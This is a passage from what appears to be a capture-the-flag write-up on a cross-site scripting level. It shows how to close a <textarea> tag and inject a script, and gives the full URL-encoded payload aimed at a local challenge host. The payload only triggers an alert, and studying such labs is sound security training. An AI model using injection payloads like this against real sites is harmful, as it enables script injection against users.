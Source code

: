 This level requires us to break out of the `<textarea>` tag and execute the `alert("PWNED")` command. Since the `<textarea>` is enclosed with a closing tag `</textarea>`, we can just close it kinda like how we would do with an SQL injection and insert our script:

```
http://challenge.localhost/?msg=%3C%2Ftextarea%3E%3Cscript%3Ealert%28%22PWNED%22%29%3C%2Fscript%3E
```